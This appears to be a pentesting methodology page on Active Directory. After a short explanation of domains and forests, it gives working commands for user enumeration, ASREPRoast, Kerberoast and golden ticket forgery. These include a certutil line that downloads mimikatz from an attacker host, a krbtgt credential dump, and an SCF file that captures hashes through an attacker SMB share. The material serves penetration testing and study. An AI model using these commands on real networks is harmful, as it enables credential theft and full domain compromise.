 ```yaml
---
description: Explanation of the Active Directory pentesting methodology
---
```


# Active Directory Principles and attacks

## Active Directory Principles

Active Directory is a directory service developed by Microsoft for managing user accounts, computers, and other resources within a network environment. It provides a centralized database that stores information about network resources and enables administrators to manage access and permissions to these resources.

Active Directory is commonly used in enterprise environments, where it can be used to manage large numbers of users and computers. It provides a hierarchical structure, allowing administrators to organize resources into logical groups, such as departments or locations, and apply policies and permissions to these groups.

Active Directory also supports authentication and authorization, allowing users to log in to the network and access resources based on their permissions. It can also be used to manage security policies, such as password policies and account lockout policies, and to deploy software and updates to network computers.

The main principles are:

* A **domain** represents logical group of interconnected computers that are connected to a network sharing a centralized database.
* A **domain controler DC** is the system in charge of managing the database of the Active Directory.&#x20;
* A **forest** is the full set of subdomains (also called trees) including the root domain.
* A **tree** is a subdomain with a complete infraestructure. For example, in enterprise environments a tree is normally used to separate departments.

### Active Directory enumeration

With the credentials of any user, even if they do not have any privileges, it is possible to enumerate all the users on the domain. There is a concept that must be considered:

* Every user and group has a RID value that identifies it within the domain.

To enumerate the domain, with the tool `rpcclient` and some user credentials, the commands that could be used could be:

1. Enumerate all the users on the domain.

```sh
rpcclient -U 'domain_name.local\username%password' IP_address -c 'enumdomusers'
```

This command will show the different users with their RID values.

2. Get the information of a specific user.

```sh
rpcclient -U 'domain_name.local\username%password' IP_address -c 'queryuser 0xRID'
```

3. Enumerate all the groups on the domain.

```sh
rpcclient -U 'domain_name.local\username%password' IP_address -c 'enumdomgroups'
```

4. To enumerate the users belonging to the admin group, with the result of the previous command, we could get the RID value of the admin group and then:

```sh
rpcclient -U 'domain_name.local\username%password' IP_address -c 'querygroupmem 0xRID'
```

{% hint style="info" %}
There is another way of enumerate a domain with the tool `lsadomaindump`. This tool can be obtained from GitHub and by setting up an Apache server, this tool creates a very friendly overview of the domain using tables.
{% endhint %}

### Access to the Active Directory

If in the reconnaissance stage we find that the port of WinRM is opened (port 5985), we could use the tool evil-winrm to connect using any user credentials obtained.&#x20;

```sh
evil-winrm -u 'username' -p 'password' -i ip_address
```

### Active Directory attacks

#### ASREPRoast attack

A user is vulnerable to this type of attack if it has the property of "No previous authentication request" enabled. For this attack it is not needed any password, only the name of at least a user (normally a list of the domain users to try it with all of them). The most common way of performing this attack is the following:

```sh
impacket-GetNPUsers domain_name.local/ -no-pass -usersfile users.txt
```

{% hint style="info" %}
`'users.txt'` is a list of users.
{% endhint %}

When launching this attack, if the user is not vulnerable to it the output is "UF\_DONT\_REQUIRE\_PREAUTH". If the attack success, the hash of the user is shown.

#### Kerberoast attack

For this type of attack we need valid credentials of a user. A user is vulnerable to this attack if it has a SPN (Service Principal Name) configured. With valid credentials we could use impacket as for ASREPRoast attacks.

1. Checking if there is any vulnerable user to Kerberoast.

```bash
impacket-GetUserSPNs domain_name.local/username:password
```

2. If the output of the command shows any vulnerable user, using the same command as before we could get the hash of the vulnerable user to crack it offline.

```
impacket-GetUserSPNs domain_name.local/username:password -request
```

#### Golden Ticket Attack

This attack consists of getting a ticket which provides full access to the domain. For that we need the hash of the krbtgt domain account which is in charge of managing the tickets.

For this type of attack we need some user credentials, even if the user has low privileges. With those user credentials we can get an interactive shell using impacket as follows:

```sh
impacket-psexec domain_name.local/username:password@IP_address cmd.exe
```

Once we get this interactive shell, the steps to perform a golden ticket attack would be the following:

1. Getting the krbtgt account information:
   * To do this, we need to share some resources from the attacker's machine to the target machine such as the mimikatz.exe to launch the tool. To do so, in the attacker's machine we could set up a python server with `python -m SimpleHTTPServer` and in the target machine get the resource using the `certutil.exe` utility.&#x20;

{% hint style="info" %}
`certutil.exe` is a native binary that is supposed to be used to manage certificates but it can be used to download files. In this case, we must specify the arguments `-urlcache` and `-f` to force the binary to fetch the URL and update the cache. As it is a native binary, it isn't normally blocked.
{% endhint %}

```bash
certutil.exe -f -urlcache -split http://attacker_IP_address:port/mimikatz.exe mimikatz.exe
```

2. In the target machine, having uploaded mimikatz, we run the tool and then we can dump the information of the `krbtgt` account with:

```
lsadump::lsa /inject /name:krbtgt
```

3. To then create the golden ticket there are several ways but here only two are explained:

#### Creating a `.kirbi` file

1. With the information of the krbtgt user, we can create a golden ticket as follows:

```
kerberos::golden /domain:[domain_name.local] /sid:[sid_domain] /rc4:[NTLM_krbtgt] /user:[username] /ticket:[filename_gt.kirbi]
```

1. With the `file.kirbi` created, we transfer this file to the attacker's machine using the utility `impacket-smbserver` for example.&#x20;
2. Once with the golden ticket, within any user account with no privileges, with a simple python server we could transfer mimikatz and the golden ticket and execute the following in mimikatz to access privileged information:

```
kerberos::ptt golden.kirbi
```

#### Using the impacket tool ticketer

1. With the following command it will be created and saved a golden ticket for the user USERNAME specified in the command using `.ccache` extension.

```
impacket-ticketer -nthash [NTLM_hash] -domain-sid [domain_sid] -domain [domain_name] USERNAME
```

2. To achieve full persistence we need to export the environment variable to the path of our golden ticket, which is the path of the credential cache:

```bash
export KRB5CCNAME="path/to/the/file/USERNAME.ccache"
```

Now, we can connect using `impacket-psexec` to any user account without specifying the password, using the arguments `-n` and `-k`.

```
impacket-psexec -n -k domain_name.local/username@IP_address cmd.exe
```

Moreover, even if the password of the user is changed, the golden ticket will still work and the attacker will still be able to log as any user.&#x20;

{% hint style="info" %}
There is another tool called `Rubeus` that can be used to perform most attacks in AD such as ASREPRoast and Kerberoast.
{% endhint %}

{% hint style="info" %}
There are also graphical tools like Neo4j and BloodHunt that provides a lot of information and graphs representing the AD environment, attack vectors, vulnerable accounts, etc.&#x20;
{% endhint %}

#### Another attacks --> file.scf

This type of files are called Shell Command Files and they are very characteristic as they could work as a vector attack for the attackers. If there is a shared resource that can be accessed, authenticated as a user or even unauthenticated, the attacker could create a file with `.scf` extension.

{% hint style="info" %}
These files are very characteristic as they have a parameter called IconFile that can be loaded from another place. If in the IconFile field we specify that the resource will be loaded from a resource in the attacker's machine, whenever the administrator browses through the shared folder the hash would be sent to the attacker. In this case the attacker must have created a shared resource with `impacket-smbserver` to listen for resource requests.
{% endhint %}

The format of the file is the following:

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

